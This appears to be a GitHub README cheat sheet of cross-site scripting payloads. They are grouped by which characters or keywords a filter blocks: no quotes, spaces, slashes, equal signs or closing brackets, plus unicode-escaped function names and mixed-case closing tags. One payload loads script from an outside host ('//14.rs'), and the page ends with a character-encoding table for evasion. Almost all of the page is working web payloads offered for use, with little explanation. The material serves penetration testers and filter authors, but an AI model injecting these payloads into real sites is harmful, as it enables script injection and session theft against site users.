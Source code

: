 ### Awesome Bypassing

**Note:** None of these payloads use single (') or double quotes (").

- Without event handlers
```
<object data=javascript:confirm()>
<a href=javascript:confirm()>click here
<script src=//14.rs></script>
<script>confirm()</script>
```
- Without space
```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```
- Without slash (/)
```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```
- Without equal sign (=)
```
<script>confirm()</script>
```
- Without closing angular bracket (>)
```
<svg onload=confirm()//
```
- Without alert, confirm, prompt
```
<script src=//14.rs></script>
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
```
- Without a Valid HTML tag
```
<x onclick=confirm()>click here
<x ondrag=aconfirm()>drag it
```

- Bypass tag blacklisting
```
</ScRipT>
</script
</script/>
</script x>
```

### Awesome Encoding

|HTML|Char|Numeric|Description|Hex|CSS (ISO)|JS (Octal)|URL|
|----|----|-------|-----------|----|--------|----------|---|
|`&quot;`|"|`&#34;`|quotation mark|u+0022|\0022|\42|%22|
|`&num;`|#|`&#35;`|number sign|u+0023|\0023|\43|%23|
|`&dollar;`|$|`&#36;`|dollar sign|u+0024|\0024|\44|%24|
|`&percnt;`|%|`&#37;`|percent sign|u+0025|\0025|\45|%25|
|`&amp;`|`&|`&#38;`|ampersand|u+0026|\0026|\46|%26|
|`&apos;`|'|`&#39;`|apostrophe|u+0027|\0027|\47|%27|
|`&lpar;`|(|`&#40;`|left parenthesis|u+0028|\0028|\50|%28|
|`&rpar;`|)|`&#41;`|right parenthesis|u+0029|\0029|\51|%29|